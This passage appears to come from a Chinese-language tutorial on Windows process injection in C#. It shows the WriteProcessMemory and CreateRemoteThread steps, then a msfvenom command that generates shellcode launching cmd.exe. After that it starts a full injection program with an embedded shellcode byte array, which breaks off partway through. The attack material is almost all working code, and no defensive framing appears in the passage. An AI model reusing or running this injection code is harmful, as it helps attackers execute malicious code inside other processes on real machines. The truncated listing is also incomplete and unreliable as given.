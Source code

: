在第三步，我们现在可以使用分配的内存区域来编写我们的外壳代码。 WriteProcessMemory通常用于写入内存区域。

```csharp
[DllImport("kernel32.dll", SetLastError=true)]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

...

IntPtr size;
WriteProcessMemory(processHandle, address, shellcode, shellcode.Length, out size);
```

在第四步，我们现在控制了进程，我们的恶意代码现在被写入内存。要执行驻留在内存中的外壳代码，我们可以使用CreateRemoteThread 创建在另一个进程的虚拟地址空间中运行的线程.

```csharp
[DllImport("kernel32.dll")]
public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

...

CreateRemoteThread(processHandle, IntPtr.Zero, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
```

使用msf生成shellcode

	msfvenom -p windows/x64/exec cmd='cmd.exe' -f csharp

完整代码：

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll", SetLastError=true, ExactSpelling=true)]
    public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, uint processId);
    [DllImport("kernel32.dll", SetLastError=true, ExactSpelling=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    static void Main(string[] args)
    {
        if (args.Length == 0)
        {
            return;
        }

        byte[] shellcode = new byte[275] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
            0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
            0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
            0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
            0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
            0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
            0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
            0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
            0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
```
